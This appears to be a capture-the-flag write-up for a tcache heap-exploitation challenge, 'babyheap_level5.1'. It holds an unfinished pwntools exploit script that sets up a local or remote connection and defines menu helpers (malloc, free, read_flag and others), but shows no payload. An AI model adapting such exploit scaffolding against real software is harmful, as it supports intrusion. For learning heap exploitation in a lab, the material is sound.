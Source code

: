 > Apply the TCACHE metadata in an unintended manner to set a value.

## Write-up

参见 [Level 5.0](#level-50)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level5.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendlineafter(b"Size: ", str(size).encode("ascii"))


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


def puts_flag():
    target.sendlineafter(b": ", b"puts_flag")


def quit():
    target.sendlineafter(b": ", b"quit")


```